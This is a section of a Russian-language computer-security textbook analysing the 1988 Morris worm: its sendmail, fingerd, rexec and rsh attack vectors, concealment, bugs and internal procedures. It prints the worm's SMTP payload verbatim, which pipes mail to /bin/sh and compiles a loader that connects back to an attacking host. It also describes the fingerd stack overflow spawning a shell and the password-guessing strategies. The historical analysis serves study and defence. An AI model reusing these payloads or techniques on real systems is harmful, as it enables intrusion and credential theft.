

|
8.4. Червь
В этом разделе мы перейдем к подробному
рассмотрению не только самого известного случая
нарушения безопасности Сети, но и самого
крупного инцидента в области компьютерной
безопасности вообще - вируса Морриса (Internet worm).
Более того, он представлял собой не просто
единичное вторжение в некоторый компьютер, а дал
ответ на давний вопрос, могут ли не в абстрактных
условиях существовать саморепродуцирующиеся
программы (то, что теоретически это возможно,
признавалось почти всеми). А подтвердив
возможность создания такой программы, этот
инцидент дал толчок к появлению целой отрасли
компьютерной безопасности - компьютерной
вирусологии (к тому времени уже существовали
единичные вирусы и на персональных компьютерах -
саморепродуцирующиеся в пределах одного
компьютера).
Остается открытым (исходя, как мы увидим в
дальнейшем, из существования схожих проблем
безопасности UNIX и в наши дни) вопрос, почему же по
сей день известен только один пример сетевого
червя. Видимо, дело в том, что в странах с развитой
компьютерной и сетевой инфраструктурой на
сегодняшний день действует (во многом, кстати,
вследствие вируса Морриса) очень жесткое
законодательство против компьютерных
преступлений такого рода (тем более, что
написание червя не приносит никакой
материальной выгоды - только сомнительную
известность), а в странах, где подобные законы
отсутствуют, отсутствует также и доступ широких
кракерских масс к глобальным компьютерным сетям.
Отсюда можно сделать вывод, что в ближайшем
будущем, когда распространенность сетей
достигнет необходимого уровня, нас ждут примеры
новых сетевых червей, сделанных хакерами этих
стран, и Россия здесь может занять одно из первых
мест, учитывая, что за последние годы именно она
давала наибольший процент мировых компьютерных
вирусов.
К 1988 году интернет как глобальная сеть уже
практически сформировался, и практически все
услуги сегодняшнего дня (кроме WWW) использовались
и тогда. С другой стороны, в хакерских и
околохакерских кругах скопилось достаточно
информации о брешах в системах безопасности и
способах несанкционированного проникновения в
удаленные компьютеры. Критическая масса была
накоплена, и она не могла не взорваться.
Итак, в начале ноября 1988 г. Сеть была атакована
так называемым сетевым червем, впоследствии
получившим в русскоязычной литературе название
"вирус Морриса" по имени его создателя -
студента Корнельского университета Роберта
Морриса-младшего. Сетевым червем называют
разновидность компьютерных вирусов, имеющих
способность к самораспространению в локальной
или глобальной компьютерной сети. Для этого
червь должен обладать несколькими
специфическими процедурами:
- нахождения новых целей для атаки;
- собственно проникновения в них;
- передачи своего кода на удаленную машину;
- запуска (получения управления) на ней;
- проверки на зараженность локальной или
удаленной машины для ее повторного незаражения.
Правовые вопросы и последствия запуска червя
рассматривались в главе 1, а теперь мы опишем
подробно структуру, механизмы и алгоритмы, им
применяемые. Было решено свободно
распространять их, в отличие от исходных текстов,
полученных в результате дизассемблирования.
Однако по истечении 9 лет такое ограничение
потеряло свою актуальность (воспользоваться
сегодня ими все равно не удастся), и они могут
быть найдены в интернете. Большинство материала
этого раздела взято из [18, 19].
8.4.1. Стратегии, используемые вирусом
Для проникновения в компьютеры вирус
использовал как алгоритмы подбора пароля (это
подробнее будет описано в п. 8.4.4), так и "дыры"
в различных коммуникационных программах,
которые позволяли ему получать доступ без
предъявления пароля. Рассмотрим подробнее эти
"дыры" .
8.4.1.1. Отладочный режим в программе Sendmail
Вирус использовал функцию "debug" программы
sendmail, которая устанавливала отладочный режим для
текущего сеанса связи. Отладочный режим обладает
некоторыми дополнительными возможностями,
такими как возможность посылать сообщения,
снабженные программой-получателем, которая
запускается на удаленной машине и осуществляет
прием сообщения. Эта возможность, не
предусмотренная протоколом SMTP, использовалась
разработчиками для отладки программы, и в
рабочей версии была оставлена по ошибке. Таким
образом, налицо типичный пример атаки по
сценарию 1.
Спецификация программы, которая будет
выполняться при получении почты, содержится в
файле псевдонимов (aliases) программы sendmail или в
пользовательском файле .forward. Эта спецификация
используется программами, обрабатывающими или
сорти-рующими почту, и не должна применяться
самой программой sendmail. В вирусе эта
программа-получатель содержала команды,
убирающие заголовки почты, после чего посылала
остаток сообщения командному интерпретатору,
который создавал, компилировал и выполнял
программу на языке Си, служившую "абордажным
крюком" , и та, в свою очередь, принимала
оставшиеся модули из атакующей машины. Вот что
передавал вирус через SMTP-соединение:
debug
mail from: </dev/null>
rcpt to: <"|sed -e '1,/^$/'d | /bin/sh ; exit 0">
data
cd /usr/tmp
cat > x14481910.c <<'EOF'
<текст программы ll.c>
EOF
cc -o x14481910 x14481910.c;x14481910 128.32.134.16 32341 8712440; rm -f x14481910 x14481910.c.
quit
Вирус заражал компьютеры двух типов - VAX и Sun,
поэтому пересылались двоичные коды для той и
другой архитектуры, оба запускались, но
исполняться мог только один. В компьютерах
других архитектур (не VAX и Sun) программы не могли
функционировать, хотя и поглощали системные
ресурсы в момент компиляции.
8.4.1.2. Ошибка в демоне Fingerd
Другой изъян, также относящийся к типовому
сценарию 1, который позволял вирусу
распространяться, находился в программе fingerd.
Данная программа содержала в себе фрагмент кода
примерно следующего вида:
{
char buf[100];
....
gets(buf);
..
}
Проверка переполнения буфера в ней не
осуществлялась. Так как буфер был в стеке, то
переполнение позволяло создавать в стеке
фрагмент кода и изменять адрес возврата из
процедуры таким образом, что при возврате
управление передавалось на этот код. Вирус
передавал специально подготовленную строку из 536
байт, которая вызывала в конечном итоге функцию
execve ("/bin/sh", 0, 0). Таким способом атаковались
только машины VAX с операционной системой 4.3BSD; на
компьютерах Sun, использующих SunOS, такие атаки
терпели неудачу.
8.4.1.3. Удаленное выполнение и подбор паролей
Вирус использовал протокол удаленного
выполнения программ (rexec), который требовал
для выполнения программы на удаленной машине
только имя пользователя и незашифрованный
пароль. Программа применяла для этого имена
пользователей локального (атакующего) хоста,
используя тот факт, что многие пользователи
имеют одинаковые имена и пароли на всех машинах в
сети. Эта, как и следующая, атака относится уже к
сценарию 4.
8.4.1.4. Удаленный командный интерпретатор
и доверенные хосты
Вирус пытался использовать программу запуска
удаленного интерпретатора (rsh) для атаки других
машин либо с полученным именем и паролем
текущего пользователя, либо вообще без
аутентификации, если атакуемая машина доверяет
данной. (Файлы /etc/hosts.equiv и .rhosts содержат список
машин, "доверяющих"данной, т. е. доступных
для запуска rsh с данной машины.) Он пробовал три
различных имени для rsh:
/usr/ucb/rsh;
/usr/bin/rsh;
/bin/rsh.
Удаленный интерпретатор по своей функции
напоминает программу удаленного исполнения, но
обладает более дружественным интерфейсом, так
как дистанционно запускается командный
интерпретатор, а не функция exec.
8.4.2. Маскировка действий вируса
Вирус осуществлял ряд мер для сокрытия своих
действий:
- стирался список аргументов по окончании их
обработки, поэтому команда ps не могла показать,
каким образом были вызваны вирусные программы;
- исполняемые файлы вируса после своего запуска
немедленно уничтожались, и нельзя было понять,
откуда появился процесс. Если зараженная машина
перезагружалась в процессе исполнения вируса, то
специальная программа автоматически
восстанавливала файл после перезагрузки;
- размер аварийного дампа устанавливался равным
нулю. Если программа аварийно завершалась, то она
не оставляла после себя никаких следов. Также
отключались сообщения об ошибках;
- вирус был скомпилирован под именем sh, такое же
имя использовалось командным интерпретатором
Bourne Shell, который часто используется в командных
файлах. Даже старательный администратор системы
не замечал увеличения числа интерпретаторов,
функционирующих в системе, или не придавал этому
значения;
- вирус размножался, ветвясь на два процесса
(роди-тель и потомок), примерно каждые три минуты.
Процесс-родитель после этого завершался, а
процесс-потомок продолжал работать. Это имело
эффект "обновления" процесса, так как для
нового процесса учет используемых ресурсов
начинался с нуля. Кроме того, эта мера затрудняла
обнаружение вируса;
- все текстовые строки, используемые вирусом,
были закодированы с помощью операции
"исключающее или" - XOR 81H. Это, конечно, слабый
метод, но он позволил скрыть важные текстовые
строки, например, имена открываемых вирусом
файлов.
8.4.3. Ошибки в коде вируса
Вирус содержал некоторое количество ошибок - от
очень тонких и почти не влияющих на его работу, до
грубых и неуклюжих. Остановимся на них подробнее.
8.4.3.1. Предотвращение повторного заражения
Участок кода для предотвращения повторного
заражения содержал много ошибок. Это имело
решающее значение, т. к. из-за того, что многие
машины заражались повторно, нагрузка на системы
и сеть увеличивалась и становилась весьма
ощутимой (некоторые машины даже не могли с ней
справиться).
Вирус, "проверяющий" наличие других
вирусов, пытался связаться с портом 23357 для того,
чтобы установить контакт с "отвечающим"
вирусом. Если это не удавалось, вирус
предполагал, что других вирусов нет, и сам
становился "отвечающим" .
Если связь устанавливалась, "проверяющий"
посылал магическое число 8865431 и в течение 300
секунд ожидал другое магическое число 1345688. Если
число было неверным, "проверяющий" разрывал
связь.
Затем он выбирал случайное число и посылал
"отвечающему" . После этого, в течение 10
секунд, он ожидал возврата этого числа, после
чего складывал его с посланным. Если сумма была
четным числом, то "проверяющий"
устанавливал значение переменной pleasequit. Иначе
говоря, каждый раз из двух вирусов один
"смертник" выбирался случайно.
После окончания (успешного или неудачного)
сеанса связи "проверяющий" "засыпал" на
5 секунд и пытался стать "отвечающим" . Для
этого он создавал TCP сокет, устанавливал его
параметры для межпроцессной связи и подключал
его к порту 23357.
Этот код содержал столько ошибок, что вызывает
удивление тот факт, что он вообще работал. Он
завершался с ошибкой при следующих условиях:
- если несколько вирусов заражали чистую машину
одновременно, то они так же одновременно
пытались найти остальных в режиме
"проверяющих" . Так как никто не мог их найти,
они постепенно переключались в режим ожидания
сообщения и один из них получал его, а остальные
прекращали попытки связаться друг с другом и не
отвечали на запросы;
- если несколько вирусов одновременно стартовали
в присутствии другого уже работающего вируса, то
только одному из них удавалось связаться с
активным вирусом, остальные не могли этого
сделать;
- если машина работала медленно или была сильно
загружена, то это могло привести к исчерпанию
вирусом лимита времени, отпущенного на
установление связи с другими вирусами, что
приводило к прекращению обмена.
Заметим, что здесь выражение
"одновременно" подразумевает 5-20 секундный
промежуток.
Критичная ошибка содержалась в коде, когда
вирус решал, что должен завершиться. Все, что он
делал - это устанавливал переменную pleasequit. Эта не
давало эффекта до тех пор, пока вирус не:
- собрал список имен машин для их атаки;
- собрал список имен пользователей;
- осуществил перебор всех "очевидных"
паролей (см. 8.4.4.3) и не попробовал 10 случайно
взятых паролей из своего словаря.
Так как вирус удалял все временные файлы, то его
присутствие в машине не мешало ее повторному
заражению.
Многократно зараженные машины распространяли
вирус быстрее, возможно пропорционально числу
копий вируса на машине, т. к.:
- вирус перемешивал списки имен машин и
пользователей, которые собирался атаковать,
используя генератор случайных чисел, зависящий
от системного времени. Разные копии получали
разные случайные числа и атаковали разные
объекты;
- вирус проводил много времени, ожидая сообщений
от других вирусов, поэтому вирусы не
конфликтовали между собой, запрашивая системные
ресурсы.
Таким образом, вирус распространялся гораздо
быстрее, чем это ожидал автор, и был обнаружен
именно по этой причине.
8.4.3.2. Использование эвристического подхода для
определения целей
Чтобы не тратить время, пытаясь заразить не
UNIX-систему, вирус иногда пытался установить
связь с предполагаемой мишенью с помощью telnet
или rsh; если это не удавалось, то вирус и не
пытался ее заразить. Благодаря этому некоторые
системы избежали заражения, т. к., хотя и
поддерживали электронную почту, но отказывали в
доступе telnet или rsh.
8.4.3.3. Неиспользуемые возможности вируса
Вирус не использовал некоторые очевидные
возможности:
- при поиске списка мишеней для атаки он мог бы
использовать службу DNS для поиска имен машин,
подключенных к сети. Эта информация обычно
включает также тип машины и ОС, что ограничивает
список целей;
- он не атаковал последовательно оба типа машин.
Если VAX-атака терпела неудачу, он мог бы
предпринять Sun-атаку, но не делал этого;
- он не пытался найти привилегированных
пользователей на локальной машине.
8.4.4. Подробный анализ структуры и процедур
вируса
В этом параграфе вирус описывается процедура
за процедурой. Взаимосвязь между процедурами
показана на рис. 8.1.

Рис. 8.1. Структура вируса.
8.4.4.1. Имена
Ядро вируса состоит из двух бинарных модулей:
один для машин VAX-архитектуры, другой для
Sun-архитектуры. Это объектные файлы, содержащие
списки имен своих внутренних процедур.
Удивительно, что эти имена осмысленны
(например, doit или cracksome), ведь такой простой метод,
как случайный выбор имен процедур, мог бы сильно
усложнить анализ вируса.
8.4.4.1.1. Обработка аргументов командной строки
Вирус мог запускаться с аргументом "-p NNN" ,
где NNN - десятичное число, которое является
идентификатором породившего процесса.
Впоследствии вирус использовал это число для
удаления данного процесса с целью "заметания
следов" .
Остальные аргументы командной строки являлись
именами файлов, которые он пытался загрузить.
Если не удавалось загрузить хотя бы один из них,
вирус заканчивал работу. Если был задан аргумент
"-p NNN" , то он так же стирал файлы и потом
пытался уничтожить свой образ на диске.
Затем вирус предпринимал следующие действия
(причем, если какие-то из них терпели неудачу, он
завершался):
- проверял, что был задан хотя бы один файл в
командной строке;
- проверял, был ли успешно загружен файл ll.c.
Если была задана опция "-p" , программа
закрывала все файлы, открытые породившим
процессом.
Затем стирался массив аргументов для
маскировки способа запуска вируса.
Вирус сканировал все сетевые интерфейсы,
получал статус и адреса каждого интерфейса.
Вирус уничтожал процесс, заданный опцией "-p
NNN" и перед этим менял группу (GID) текущего
процесса, чтобы не погибнуть вместе с ним.
Если все эти действия заканчивались удачно,
далее он выполнял процедуру doit, которая
совершала остальную работу.
8.4.4.2. Процедура doit
Процедура doit состоит из двух частей -
инициализации и основного цикла.
8.4.4.2.1. Инициализация процедуры doit
В ней инициализируется генератор случайных
чисел; кроме того, вирус сохраняет время для
последующего определения того, как долго он
работал в системе.
Затем вызывается процедура hg. Если она
оканчивается неудачно, вызывается процедура ha.
После этого с вероятностью шесть седьмых (это
было сделано специально) проверяется, существует
ли на данной машине работающая копия вируса (см.
8.4.3.1).
На последнем этапе процедура инициализации
должна была по замыслу автора посылать байт по
адресу 128.32.137.13, соответствующему ernie.berke-ley.edu,
в порт 11357. Такое никогда не происходило, так как
автор неправильно использовал вызов функции.
8.4.4.2.2. Основной цикл процедуры doit
Это бесконечный цикл, содержащий наиболее
активные компоненты вируса. В нем вызывается
процедура cracksome, пытающаяся найти компьютеры, в
которые можно проникнуть. Затем, после
30-секундного ожидания, во время которого
происходит попытка связаться с другими вирусами,
вирус пытается проникнуть в другие машины.
После осуществления атак он разветвляется,
создавая две копии. Первоначальная
(процесс-родитель) уничтожается, оставляя
процессу-потомку всю информацию.
Затем процедуры hd, hl и ha ищут машины для
заражения (см. 8.4.4.4), и программа ждет еще 2 минуты.
Наконец, перед возвратом на начало цикла,
проверяется значение глобальной переменной
pleasequit. Если она установлена и если вирус уже
перебрал более 10 слов из собственного словаря
паролей, вирус завершает работу. Таким образом,
принудительная установка pleasequit не дает эффекта
моментального завершения всех вирусов.
8.4.4.3. Процедуры подбора пароля
Эти процедуры являются "мозгом" вируса. Cracksome
- процедура, применяющая различные стратегии для
проникновения в систему путем подбора паролей
пользователей. Автором допускалось добавление
новых стратегий в случае последующего развития
вируса. Вирус последовательно пробует каждую
стратегию.
8.4.4.3.1. Фаза 0
Это предварительный этап, на котором
определяется список возможных мишеней для атаки
(имена и сетевые адреса компьютеров, имена и
пароли пользователей).
На этом этапе читается файл /etc/hosts.equiv в поисках
имен машин, которые могли бы быть заражены. Этот
файл содержит информацию о том, какие машины
доверяют данной. Логично предположить, что
пользователи данной машины могут быть
пользователями машин из этого списка.
После этого читается файл .rhost, представляющий
собой список машин, которым данная машина
доверяет привилегированный доступ. Заметим, что
это не дает возможности получения доступа к
удаленной машине и может служить только в
качестве возможного адреса для атаки. Часто
системные администраторы запрещают доступ к
этому файлу, из-за чего вирус не мог его
прочитать, хотя .rhosts очень часто является частью
/etс/hosts.equiv.
В заключении фазы 0 вирус читает файл паролей
/etc/passwd. Информация из этого файла используется
для нахождения персональных .forward-файлов, и те
просматриваются с целью поиска имен машин,
которые можно атаковать. Кроме того,
запоминаются имена пользователей, зашифрованные
пароли и информационные строки GECOS, хранящиеся в
файле /etc/passwd. После того, как вирус просканировал
весь файл, он переходит к перебору стратегий.
8.4.4.3.2.. Стратегия 1
Это самая простая стратегия, способная
определить только примитивные пароли. В качестве
пароля предлагаются следующие варианты (для
примера возьмем строчку из файла etc/passwd
user:encrypted password:100:5:Last First: /usr/user:/bin/sh ):
- пароль вообще отсутствует;
- в качестве пароля берется входное имя
пользователя (user);
- то же, но прочитанное справа налево (resu);
- пароль представляет собой двойной повтор имени
пользователя (useruser);
- имя или фамилия пользователя (Last, First);
- то же, но в нижнем регистре (last, first).
Все эти атаки применялись к 50 паролям,
накопленным во время фазы 0. Так как вирус пытался
угадать пароли всех пользователей, он переходил
к стратегии 2.
8.4.4.3.3. Стратегия 2
Стратегия 2 использует внутренний список из 432
возможных паролей, являющихся, с точки зрения
автора вируса, наиболее подходящими кандидатами
на эту роль. В цикле проверки проверяется
значение переменной pleasequit, чтобы перед выходом
вирус проверил не менее 10 вариантов. Список
содержится в закодированном виде (установлен
старший бит) и перемешивается в начале проверки
для того, чтобы пароли подбирались в случайном
порядке.
Когда список слов исчерпан, вирус переходит к
стратегии 3.
8.4.4.3.4. Стратегия 3
Эта стратегия использует для подбора пароля
файл /usr/dict/words, содержащий около 24000 слов и
используемый в системе 4.3BSD (и других UNIX системах)
как словарь для проверки орфографии. Если слово
начинается с прописной буквы, то также
проверяется и вариант со строчной буквой.
8.4.4.4. Процедуры поиска удаленных машин
Это набор процедур с начинающимися на "h"
именами, выполняющих задачу поиска имен и
адресов удаленных машин.
Процедура hg вызывает процедуру rt_init, которая
сканирует таблицу маршрутов и записывает все
адреса доступных шлюзов (gateways) в специальный
список. Затем процедура hg пытается применить
процедуры атаки через rsh, finger и sendmail.
Процедура ha связывается с каждым шлюзом из
списка, полученного процедурой hg, через TCP порт
номер 23 (telnet), для того, чтобы обнаружить те
машины, которые поддерживают telnet. Список
перемешивается случайным образом, после чего для
каждой машины из этого списка вызывается
процедура hn (т. е. вирус пытается заразить все
машины в подсетях этого шлюза).
Процедура hl извлекает номер сети - первый
компонент сетевого адреса из всех адресов
текущей машины, и для каждого полученного адреса
вызывает процедуру hn с этим адресом в качестве
аргумента (иначе говоря, атакуются все локально
подключенные подсети).
Процедура hi пытается атаковать каждую машину
из списка, находящегося в файле /etc/hosts.equiv
(см. 8.4.4.3), через rsh, finger и sendmail.
Процедура hn получает номер сети в качестве
аргумента. Если этот номер совпадает с номером
сети одной из машин, подключенных к данной,
процедура завершается. Для остальных адресов она
пытается угадать адреса шлюзов путем перебора
всех возможных адресов (<номер сети>.[1-8].0.[1-255]).
Этот список перемешивается случайным образом,
после чего процедура пытается атаковать до 12
машин из этого списка, используя rsh, finger и SMTP.
Если машина не поддерживает связь через TCP-порт 514
(rsh), то hn не пытается атаковать ее. После первой
успешной атаки процедура завершается.
8.4.4.4.1. Порядок работы
Все эти процедуры вызываются в главном цикле.
Если первая процедура завершилась успешно, то
остальные процедуры не вызываются. Каждая
процедура возвращается после того, как она
сумела атаковать одну машину. Затем вызывается hi,
которая пытается заразить удаленные машины,
найденные cracksome. Если hi терпит неудачу, то
вызывается ha, которая старается проникнуть в
удаленную машину по случайно угаданному адресу
связи. Это демонстрирует, что вирус предпочитал
поражать сначала шлюзовые машины, а затем
распространяться на присоединенные к ним сети,
вместо того чтобы заражать машины, минуя шлюзы.
Если hg, hi и ha терпят неудачу, то вызывается hl,
которая похожа на ha, но подбирает адрес,
используя сетевой адрес текущей машины.
Анализ кода этих процедур так же
свидетельствует о наличии ошибок, в результате
чего некоторые из них не были функциональны.
8.4.4.4.2. Процедура ll.c - "абордажный крюк"
Это короткая процедура, которую все процедуры
атаки использовали для пересылки основной части
вируса.
Первое, что она делает, это удаляет свой образ
на диске. Затем она проверяет наличие трех
аргументов (если их нет, то завершается), после
чего закрывает все файловые дескрипторы и
разветвляется на два процесса (если это не
удается, она так же завершается).
Процесс-родитель завершается, не оставляя
никаких связей с порожденным процессом.
Далее процедура (процесс-потомок) создает
TCP-связь с заражаемой машиной по адресу,
заданному в качестве первого аргумента, через
порт, заданный вторым аргументом. Затем она
пересылает на зараженную машину "магическое
число" , заданное третьим аргументом. Каждый
аргумент стирается сразу же после его
использования. Далее стандартный ввод-вывод
переназначается на канал связи с зараженной
машиной.
Следующим этапом в цикле считывается длина и
имя каждого файла, составляющего вирус. Каждый
файл пересылается с зараженной машины на
текущую. При возникновении сбоев все файлы
удаляются.
По окончании цикла пересылки файлов
запускается Bourne Shell (sh), замещающий программу ll и
получающий команды с зараженной машины.
|